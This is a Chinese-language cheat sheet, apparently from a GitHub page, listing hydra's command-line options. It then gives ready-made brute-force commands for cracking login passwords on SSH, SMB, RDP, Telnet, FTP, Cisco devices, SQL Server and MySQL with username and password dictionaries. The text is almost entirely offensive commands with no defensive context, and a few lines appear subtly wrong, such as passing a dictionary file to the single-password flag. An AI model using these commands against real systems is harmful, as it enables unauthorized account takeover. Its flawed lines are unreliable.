 # hydra

参数详解：
-R 根据上一次进度继续破解
-S 使用SSL协议连接
-s 指定端口
-l 指定用户名
-L 指定用户名字典(文件)
-p 指定密码破解
-P 指定密码字典(文件)
-e 空密码探测和指定用户密码探测(ns)
-C 用户名可以用：分割(username:password)可以代替-l username -p password
-o 输出文件
-t 指定多线程数量，默认为16个线程
-vV 显示详细过程
server 目标IP
service 指定服务名(telnet ftp pop3 mssql mysql ssh ssh2...)

使用hydra破解ssh的密码
hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh

破解smb
hydra -l administrator -P pass.txt IP smb

破解rdp
hydra IP rdp -l administrator -P pass.txt -V

破解telnet
hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

破解ftp
hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV

破解cisco
hydra -P pass.txt IP cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

破解sqlserver密码
hydra.exe -l sa -p c:\pass.txt 192.168.2.3 mssql

破解Mysql密码
hydra.exe -l root -p c:\pass.txt 192.168.2.3 mysql